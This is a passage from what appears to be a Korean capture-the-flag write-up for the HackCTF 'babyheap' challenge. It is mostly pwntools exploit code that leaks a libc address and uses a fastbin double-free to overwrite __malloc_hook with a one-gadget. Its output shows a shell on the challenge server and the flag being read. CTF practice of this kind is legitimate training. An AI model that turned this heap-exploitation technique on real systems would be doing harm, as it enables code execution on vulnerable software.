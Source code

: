 ###

Show(-263002)

free_address=u64(p.recv(6).ljust(8,'\x00'))
libc_base=free_address-free_offset
malloc_hook_address=libc_base+malloc_hook_offset
onegadget_address=libc_base+onegadget_offset

log.info("free_address is "+str(hex(free_address)))
log.info("libc_base is "+str(hex(libc_base)))

Malloc(0x60,'AAAA')
Malloc(0x60,'BBBB')
Free(0)
Free(1)
Free(0)
Malloc(0x60,p64(malloc_hook_address-0x23))
Malloc(0x60,'CCCC')
Malloc(0x60,'DDDD')
Malloc(0x60,'A'*19+p64(onegadget_address))
Free(2)
Free(2)

p.interactive()
</pre>

flag는 다음과 같다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/31.babyheap$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3030: Done
[*] free_address is 0x7f0776a784f0
[*] libc_base is 0x7f07769f4000
[*] Switching to interactive mode
*** Error in `./main': double free or corruption (fasttop): 0x0000000000b0e010 ***
$ whoami
attack
$ cat flag
HackCTF{51mp13_f457b1n_dup!!}
</pre>
